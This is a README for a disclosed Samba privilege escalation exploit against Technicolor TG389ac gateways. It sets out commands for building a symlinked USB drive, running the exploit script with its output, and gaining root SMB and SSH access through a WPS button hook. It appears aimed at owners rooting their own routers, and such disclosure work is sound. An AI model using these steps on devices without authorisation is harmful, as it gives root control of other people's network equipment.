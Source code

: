 # FDEU-CVE-2020-1FC5
Samba privilege escalation exploit. Tested on Technicolor TG389ac from Telia (LT) running Homeware 17.1.7992.
Other Technicolor gateways running Homeware NG firmwares up to 17.x with original webui front-end are possibly affected.

## Requirements

* Local admin access
* Empty USB flash drive with EXT2 partition

## Prepare the flash drive

```
mkfs.ext2 /dev/sdX1
mkdir /tmp/sdX1
mount /dev/sdX1 /tmp/sdX1
cd /tmp/sdX1
touch exploit
ln -s / rootfs
cd ~
umount /tmp/sdX1
```

Plug the fash into the router's USB port.

## Install dependencies

```
apt-get install python3 python3-requests python3-srp
```

## Enable root filesystem access

Run the provided exploit script:

```
# python3 tg389ac_samba_exploit.py http://192.168.1.254 admin
Password: 
[*] Init SRP authentication
[*] Get CSRF token
[*] Send authentication challenge
[*] Send authentication response
[*] Renew CSRF token
[*] Submit dummy samba config
[*] Submit samba exploit
[*] Reboot the router
b'{ "success":"true" }'
[*] Done. Wait until the rooter boots and open the network share
Example: \\192.168.1.254 or smb://192.168.1.254
```

You can now browse the root filesystem via SMB.

## Enable root SSH

Browse the SMB share and edit `/etc/config/button` file this way at 'wps' config section:

https://github.com/full-disclosure/FDEU-CVE-2020-1FC5/blob/master/etc-config-button#L48

Activate WPS button once as normal by pressing it for a couple of seconds (the exact required amount of seconds is shown in that same configuration file).
This will run the above snippet to correctly setup local SSH root access (user: root, password: root) and restore original WPS button configuration.
You can now login as root via ssh into your gateway.

## Docker

```
sudo docker build -t tg389ac_samba_exploit .
sudo docker run -ti tg389ac_samba_exploit /bin/bash
cd FDEU-CVE-2020-1FC5
python3 tg389ac_samba_exploit.py
```
